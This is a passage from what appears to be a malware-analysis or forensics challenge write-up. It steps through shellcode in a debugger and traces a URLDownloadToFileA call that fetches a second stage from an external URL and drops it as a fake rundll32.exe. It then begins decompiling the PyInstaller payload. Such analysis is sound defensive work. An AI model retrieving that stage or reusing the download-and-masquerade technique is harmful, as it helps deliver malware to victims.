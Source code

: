 Now that we know it runs, we'll run it as a suspended thread, to give us time to attach to this process with a debugger. 

Open x64dbg, go to "File" > "Attach" and attach to the runsc64 process. Then, set a breakpoint on the shellcode address shown by runsc64, by typing `SetBPX 0x0000014DE2FF0000` in the Command input box. Then, switch back to the runsc64 window and press any key to resume the shellcode thread. You'll notice that x64dbg will pause on the breakpoint set, placing us in the beginning of the shellcode.

Since we suspect that a file will be downloaded, we can set breakpoints on the `CALL` instructions that appear in the assembly instuctions, and keep an eye on their registers values.

When you reach the 6th CALL instruction (000001D0981E01C2), you can see that the function called is `urlmon.URLDownloadToFileA`, which the arguments are `rdx="https://dfir.pt/cscpt.bin"` and `r8="C:\\ProgramData\\USOShared\\rundll32.exe"`.

This means that our next stage is located at `https://dfir.pt/cscpt.bin`, which you can download manually.

#### Obtaining the payload source code

The provided file seems to be a PE executable:
```bash
$ file cscpt.bin
cscpt.bin: PE32+ executable (console) x86-64, for MS Windows
```

If we rename it in Windows to `cscpt.exe`, we can see it assumes an icon realted to Python, which may suggest that it was done using Python.

Let's run `pestr` in a Linux machine and analyze its strings (greater than 20 characters to avoid noise):
```bash
$ pestr -n 20 cscpt.exe > cscpt.exe.pestr
```

The strings include references to Python errors (`PyErr_*`) and other Python modules, as well as references to `cryptography.hazmat.*` modules, which is a Python package to perform cryptographic operations. This means that this executable was most likely obtained from Python source code. 

In efforts to obtain the Python source code, I searched "exe to python" online and came across a StackOverflow thread that suggested that, if the executable was obtained using PyInstaller, obtaining the source code would be as simple as running the [PyInstaller Extractor](https://sourceforge.net/projects/pyinstallerextractor/):
```bash
$ python3 pyinstxtractor.py cscpt.exe
```
The result of this command is the folder `cscpt.exe_extracted` containing a bunch of `pyc` files. According to Google, `pyc` are compiled bytecode files that can be executed directly by the interpreter, but it's still unreadable code. Doing some more search, I discovered that it may be trivial to obtain the Python source code from the `pyc` files using [uncompyle6](https://github.com/rocky/python-uncompyle6/),  a Python bytecode decompiler.

It can be installed via pip with:
```bash
$ python3 -m pip install uncompyle6
```

Then tried to decompile what appeared to be the main file `cscpt.pyc`:
```bash
$ uncompyle6 cscpt.pyc
```
